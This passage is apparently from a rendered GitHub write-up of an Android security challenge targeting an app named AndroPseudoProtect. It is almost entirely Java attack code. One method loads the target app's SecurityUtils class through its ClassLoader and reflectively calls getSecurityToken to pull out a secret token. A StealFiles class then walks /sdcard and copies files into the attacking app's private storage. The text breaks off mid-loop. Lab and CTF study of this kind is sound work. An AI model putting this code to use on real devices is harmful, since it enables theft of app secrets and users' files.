```java
            );

            // Load a class from the other app using that context's ClassLoader
            ClassLoader classLoader = otherAppContext.getClassLoader();
            Class<?> clazz = classLoader.loadClass("com.eightksec.andropseudoprotect.SecurityUtils");

            // Create an instance and call the method
            Object instance = clazz.getDeclaredConstructor().newInstance();
            Method method = clazz.getMethod("getSecurityToken");

            // Invoke and capture the result
            Object result = method.invoke(instance);
            if (result != null) {
                return result.toString();
            }

        } catch (Exception e) {
            e.printStackTrace();
        }

        // Return null or a default value if anything fails
        return null;
    }
}
```

<br />

StealFiles.java

```java
package com.example.andropseudoprotect;

import android.content.Context;
import android.content.Intent;
import android.os.Build;
import android.os.Environment;
import android.provider.Settings;
import android.util.Log;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;

public class StealFiles {

    public void copyFilesFromSdcard(Context context) {

        File sourceDir = Environment.getExternalStorageDirectory(); // /sdcard/
        File destDir = context.getFilesDir(); // app’s private files directory
        copyMatchingFiles(sourceDir, destDir);
    }

    private void copyMatchingFiles(File src, File destDir) {
        if (src == null || !src.exists()) return;

        File[] files = src.listFiles();
        if (files == null) return;

        for (File file : files) {
            if (file.isDirectory()) {
```